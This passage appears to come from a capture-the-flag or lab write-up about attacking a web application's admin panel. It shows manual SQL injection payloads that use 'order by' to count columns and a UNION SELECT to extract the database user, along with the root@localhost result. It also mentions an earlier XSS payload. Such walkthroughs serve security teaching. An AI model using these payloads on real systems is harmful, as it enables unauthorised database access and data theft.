 ![admin](img/adminpanel.png)
 There is a lot of interesting input/output.
 We see a table for pending transaction approval. The backend of our XSS payload.
 We know from our inital port scan that their is a MYSQL DB. This is worth testing for SQL injection.
 Then our next input field takes a numeric value and returns another table. Out of habbit I instantly inserted an escape quote that returns `There is a problem with your SQL syntax`, which isignifies a SQLi point. You could use a tool like SQLmap for this but what fun would that be?
 
 **SQL injection**
`1'OR'1' AND '1'='2' order by 3-- `
  Tells us there are 3 columns, 2 visable, 1 hidden.
`1'OR'1' AND '1'='2' union select 1,user(),3-- `
 gives us the user and hostname of the SQLdb which is localhost since it's on the same machine as this application.
 
<table style="width:100%">
  <tr>
    <th>ID</th>
    <th>User</th>
  </tr>
  <tr>
    <td>Admin</td>
    <td>root@localhost</td>
  </tr>
</table>
